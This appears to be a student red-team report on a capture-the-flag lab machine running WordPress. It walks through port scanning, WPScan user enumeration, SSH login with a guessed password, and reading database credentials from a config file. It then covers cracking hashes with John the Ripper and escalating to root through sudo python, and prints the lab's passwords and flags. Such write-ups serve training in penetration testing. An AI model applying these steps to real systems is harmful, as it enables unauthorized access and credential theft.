 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Service
 
Nmap scan results for the target machine reveal the below services and OS details:
 
```bash
$ nmap -sV -O 192.168.1.0/24
```
 
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp – SSH – open 
    - Allows ssh logins and brute force attack using dictionary.
 
  - Port 80/tcp – HTTP – open
    - Allows for HTTP traffic and brute force attack using dictionary.
 
  - Port 111/tcp – rbcbind – open 
    - Allows to see what services are running which help hackers in the reconnaissance step. RPC has several security vulnerabilities.
 
   - Port 139/tcp – netbios-ssn – open
     - Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
     
   - Port 445/tcp – netbios-ssn – open
     - Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
 
### Critical Vulnerabilities
The following vulnerabilities were identified on target 1:
 
#### WPScan
- WPScan was ran to enumerate version and users. 
- Wordpress is running version 3.7.8, which has many vulnerabilities:
  - https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224460/Wordpress-Wordpress-3.7.8.html
- Two users were found: Michael and Steven.

#### Brute Force Attack
 
- Michael password was guessed, and it was the same as his login, Michael. 
- Steven password was cracked using john the ripper after finding his has hash.
 
#### Python Shell Commands
- After logged in as Steven, I used the python bash commands to gain root access. 

## Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt`: {b9bbcb33e11b80be759}
     - **Exploit Used:**
         - Used ls to look at the html directory an inspected the files in it. Found the flag in the html directory.
     - **Commands Used:**
```bash
$ cd /var/www/html
$ ls
$ cat service.html
```
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used:**
         - Weak password policy
         - Michael’s password was guessed while trying to login to his account using ssh.
         - The flag was found using the locate command. Flag was found in yhe /var/www directory.
     - **Commands used:**
```bash
$ ssh michael@192.168.1.110
>>> Password: Michael
$ locate flag
```                           
 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used:**
        - Looking for information that sysadmin forgot to remove. 
        - Found the password for the MySQL database in the file wp_config.html located in the directory /var/www/html/wordpress: root and R@v3nSecurity.
        - Logged into the MySQL database and found the hashes for Michael’s and Steve’s password in the worpress database in the wp_users table.
        - Found flag 3 in the table wp_posts 
     - **Commands used:**
```bash
$ mysql -u root -p
>>> R@v3nSecurity
$ show database;
$ use wordpress;
$ show tables;
$ select * from wp_users;
$ select * from wp_posts where post_title=”flag3”;
```        
- `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used**
       - Python Shell command
       - Steven’s password was cracked using john the riper after creating a file called wp_hashes.txt with his hash in it.
       - Once logged in as Steven, I still could not gain root access, but found out with sudo -l that he could run commands on raven without password.
       - Python scrip was run to gain access and flag 4 was found.
    - **Command used:**
```bash
$ john wp_hashes.txt. The password is pink84.
$ sudo -l
$ sudo /usr/bin/python
>>> import os
>>> os.system ("sudo su root"|)
$ whoami
```
 





